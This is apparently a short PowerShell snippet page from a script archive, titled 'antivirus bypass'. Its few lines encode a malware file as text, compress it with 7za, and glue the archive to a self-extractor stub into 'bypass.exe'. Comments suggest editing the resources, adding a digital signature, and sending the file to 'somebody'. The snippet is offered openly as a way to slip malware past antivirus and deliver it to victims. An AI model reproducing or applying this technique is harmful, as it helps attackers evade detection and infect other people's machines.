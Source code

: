 ```yaml
---
pid:            4951
author:         greg zakharov
title:          antivirus bypass
date:           2014-03-02 15:52:24
format:         posh
parent:         0

---
```


# antivirus bypass

### [download](Scripts\4951.ps1)



```posh
[String]::Join(' ', [IO.File]::ReadAllBytes(#malware)) | Out-File -enc ASCII raw
&7za a -mx9 raw.zip raw
&cmd copy /b raw.zip + ZipSFX + ReverseActions bypass.exe
#optional:
#1) edit bypass.exe with resource editor
#2) add digital signature
#at last do not forget send it somebody
```
